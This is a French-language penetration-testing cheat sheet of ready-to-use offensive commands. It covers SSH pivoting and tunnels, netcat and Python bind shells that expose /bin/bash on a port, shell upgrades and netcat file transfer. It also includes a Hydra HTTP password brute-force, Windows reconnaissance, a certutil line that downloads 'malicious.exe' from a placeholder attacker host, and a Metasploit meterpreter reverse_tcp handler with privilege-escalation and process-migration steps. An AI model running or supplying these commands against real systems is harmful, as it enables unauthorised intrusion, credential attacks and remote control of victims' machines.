 <h2>Unix</h2>
Accorder les permissions pour un user specifique

```
setfacl -m u:username:rwx myfolder
```
Tunnel ssh dynamique sur le port local 8080:

```
ssh -ND 8080 root@addressIP
```
Rebonds avec ssh:

```
ssh -J root@premier_rebond root@cible
```
Port forwarding avec ssh:

```
ssh -NL port_local:cible_distante:port_cible_distante root@rebond</br>
```
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :

```
 nc -lvp 2222 -e /bin/bash
 python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
On se connecte avec nc -nv 2222 adress port
<h4>Pour avoir un shell pty :</h4>

```
python -c "import pty; pty.spawn('/bin/bash')"
```
<h4>Pour avoir tab completion tout joli :</h4>
Prendre un shell pty avec la commande plus haut

```
 CTRL-Z
 stty raw -echo
 fg
```

Envoi fichier avec netcat :

```
nc -l -p 1234 > out.file
nc -w 3 [destination] 1234 < out.file
```

Hydra:</br>
http-auth bute force

```
hydra -L user.txt -P password.txt -t12 -f x.x.x.x http-get / -V
```

XfreeRDP:

```
xfreerdp /f +clipboard /kbd:0x0000040C /u:USERNAME@DOMAIN /p:PASSWORD /v:IP
```
<h2>Windows</h2>

`systeminfo` pour obtenir des renseignements sur le systeme

`net users [username]` pour obtenir des renseignements sur les utilisateurs

`tasklist` pour lister les processus

`netstat -ano` pour les connexions reseau

`dir sysprep /s /b` pour trouver un fichier dans le repertoire courant et ses sous-dossiers

`wmic qfe list` pour lister les mises à jour installées

`certutil.exe -urlcache -split -f "https://hackers.home/malicious.exe" bad.exe` le wget en cmd

`certutil.exe -decode bad.txt bad.exe` le base64 decode en cmd

<h3>Powershell</h3>

`get-WmiObject -class Win32_Share`


<h2>Metasploit</h2>
Handler :

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.8.142
set LPORT 8888
set ExitOnSession false
exploit -j -z
```

use post/multi/recon/local_exploit_suggester</br>

`run post/windows/manage/migrate` pour changer sur un processus plus fiable</br>

